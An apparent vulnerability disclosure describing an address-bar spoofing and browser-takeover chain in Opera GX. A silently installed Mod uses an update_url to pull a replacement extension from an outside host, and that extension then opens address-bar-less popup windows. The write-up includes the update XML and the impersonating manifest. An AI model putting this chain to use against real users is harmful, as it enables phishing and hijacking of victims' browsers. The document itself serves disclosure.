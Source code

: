# Title: Full Address Bar Spoof and Browser Takeover Inside Opera GX

## Description: 
In Opera GX there isn't any check for installing Mods and we can abuse this to update the Mod to an Extension and have higher privileges.

Opera GX Mods
Lately I was in a group chat were they talked about the new OperaGX feature Mods, I was curious and wanted to search about it I found the news article https://blogs.opera.com/news/2023/02/opera-gx-opera-gf-valentines-day-mod/

Opened my GX and looked how it worked luckily everything was documented https://github.com/opera-gaming/gxmods , By looking at example mods I noticed these mods are basically extensions but without any permissions.

Downloaded an example and played with it I found out if the manifest had the mod attribute then it will be treated differently as an extension, It can't have any content_script or permissions.

Mods Installation
From the documentation it says you can install a mod by going to extensions and choosing load unpacked then your folder or by dropping the packed .crx file into the browser.

I know that if you download a packed extension .crx inside the browser it will prompt a message saying:

image-2023-02-27T10:27:09.910Z.png

But what if we download a .crx mod

image-2023-02-27T10:28:40.291Z.png

As you can see our Mod was added to the browser without any prompt message or permission, but Mods can't do that much like I said before the most thing I thought of was CSS injection on any website, how we can abuse this mod to do malicious actions?

Mod update
One of manifest V3 features is you can have update an extension outside the store and host it on your server, update_url by entering our host inside this attribute the browser will send a request to it and update our extension to the newest version.

I created a Mod and pointed update_url to this XML document:

<?xml version='1.0' encoding='UTF-8'?>
<gupdate xmlns='http://www.google.com/update2/response' protocol='2.0'>
  <app appid='ognjhldibihbecibchfedidcmgpcenjj'>
    <updatecheck codebase='https://pwr.wtf/asdfgh/video.crx' version='1.23' />
  </app>
</gupdate>
This will update the mod to the newer version 1.23 and contents of our new version is:

{"update_url": "https://pwr.wtf/asdfgh/pp.txt",
    "manifest_version": 3,
    "name": "Video Player",
    "description": "Best Video Player",
    "version": "1.23",
    "icons":
    {
        "512": "icon_512.png"
    },
    "developer":
    {
        "name": "Opera Softwarea"
    },

   "background": {
    "service_worker": "x.js"
  }
}
As you can see now we don't have the mod attribute which will change our mod to extension, and also we have a background script x.js which will run in context of extension.

Now let's try our attack

User visits our page, the mod will be installed automatically:

image-2023-02-27T10:38:04.444Z.png

User closes his browser and opens it again

image-2023-02-27T10:38:48.450Z.png

The Mod changes to Extension and our background script will be executed.

Background script
Even after updating the extension still doesn't have any permissions, tried everything from manifest but it didn't work, looked at the background script and it had these permissions enabled by default:

image-2023-02-27T10:42:03.294Z.png

Tried all of them and they didn't have much permissions but one interesting function caught my eye didn't saw it before, chrome.windows
It has access to all opened windows which we can remove them and create new ones, looking at documentation chrome.windows.create there is this interesting value called type lets see examples, now we can use normal and popup let's try popup:

image-2023-02-27T10:46:11.336Z.png

Notices anything weird? there isn't any address bar and this allow us to create our own URL bar and trick anyone they are on a legit origin.

Exploitation
image-2023-02-27T10:50:25.268Z.png

Hopefully the diagram is clear, we also have access to chrome.windows.remove which enable us to remove the main window and only open the spoofed window we control, this will make the browser only open our window and the main window can't be accessed.

I'm not sure about how Opera checks for updates regularly but after every restart it checks for it, I think after some hours it will also check for updates no need for browser restart this will make the attack more effective.

## Author: Renwa

## Affected Browser(s): Opera GX

## Severity: Low

## Spoof Type: Window-Without-Address-Bar

## References: https://medium.com/@renwa/you-are-not-where-you-think-you-are-opera-browsers-address-bar-spoofing-vulnerabilities-aa36ad8321d8

## POC Photo/Video: bug-009.mp4

## Discovery Date: 2023-02-27

